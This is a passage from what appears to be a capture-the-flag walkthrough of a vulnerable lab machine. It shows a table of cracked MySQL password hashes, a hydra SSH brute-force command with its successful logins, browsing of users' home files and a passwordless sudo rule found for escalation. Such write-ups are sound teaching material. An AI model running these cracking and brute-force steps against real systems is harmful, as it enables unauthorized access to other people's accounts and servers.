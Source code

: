 ```
| rjacobson  | *797420C584EBF42750EB523104268BA0FD87FBC8 (internet) |
| rpatel     | *DF216F57F1F2066124E1AA5491D995C3CB57E4C2 (welcome)  |
| sgains     | *C5FEAC8A32D4FAFF1EF681447DA706634352AFF8 (killer)   |
| sjohnson   | *94F3DC3F398B76269CAAD51627279D4233A6C89A (soccer)   |
| strammel   | *ED043A01F4583450BC8EB1E83C00C372CA49C4E4 (michelle) |
| swarren    | *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9 (123456)   |
| tdeleon    | *7B2F14D9BB629E334CD49A1028BD85750F7D3530 (shadow)   |
| tgoodchap  | *FCAAF3F0BD94C027B2769A95903C355CE6294660 (football) |
| webapp     | *0DCC22A95EEBFF4984DF6A7B7F2D7D28DBB5F36F            |
+------------+------------------------------------------------------+
```

Although we crack a ton of user credentials from the DB, the user `webapp` is still not cracked (you can find out what user is used to access the DB with the `user()` MySQL function). I then proceeded to use `hydra` to enumerate all the users and passwords for SSH:

```
root@kali:~# hydra -L users.txt -P pass.txt 192.168.1.120 ssh
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at xxxx-xx-xx xx:xx:x
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 64 tasks, 2499 login tries (l:51/p:49), ~2 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.120   login: aadams   password: computer
[22][ssh] host: 192.168.1.120   login: amaynard   password: internet
[22][ssh] host: 192.168.1.120   login: aspears   password: michael
[22][ssh] host: 192.168.1.120   login: aweiland   password: gizmodo
[22][ssh] host: 192.168.1.120   login: bbanter   password: starwars
[22][ssh] host: 192.168.1.120   login: bphillips   password: blahblah
[22][ssh] host: 192.168.1.120   login: bwatkins   password: 111111
[22][ssh] host: 192.168.1.120   login: cchisholm   password: qwerty
[22][ssh] host: 192.168.1.120   login: ccoffee   password: 666666
// Output truncated
```

After logging in each user one by one, I found out that `jdavenport` user has interesting files in their home folder. Interestingly, `ccoffee` belongs to the group `admin` and has sudo privileges.

```
jdavenport@slax:~$ ls -l
total 8
-rwx------ 1 jdavenport users 495 Oct 20 18:03 company_address.txt*
-rwx------ 1 jdavenport users  34 Oct 20 18:03 svrc.txt*

jdavenport@slax:~$ cat company_address.txt 
Good Evening everyone,  I would like to start off by letting you know how honored I am 
for being promoted to server as Primaline's Chief Information Officer.
As many of you know, we recently suffered several attacks on our servers from outside parties.
Thankfully, none of the attacks were successful.  I want you to know that I am personally working to lockdown every server that Primaline
controls in order to protect both our company as well as all of you who serve as our valued employees.

jdavenport@slax:~$ cat svrc.txt 
I ate 47 hot dogs last Tuesday!@!

ccoffee@slax:~$ id
uid=1017(ccoffee) gid=100(users) groups=100(users),102(admin)

ccoffee@slax:~$ sudo -l
User ccoffee may run the following commands on this host:
    (root) NOPASSWD: /home/ccoffee/scripts/getlogs.sh
```
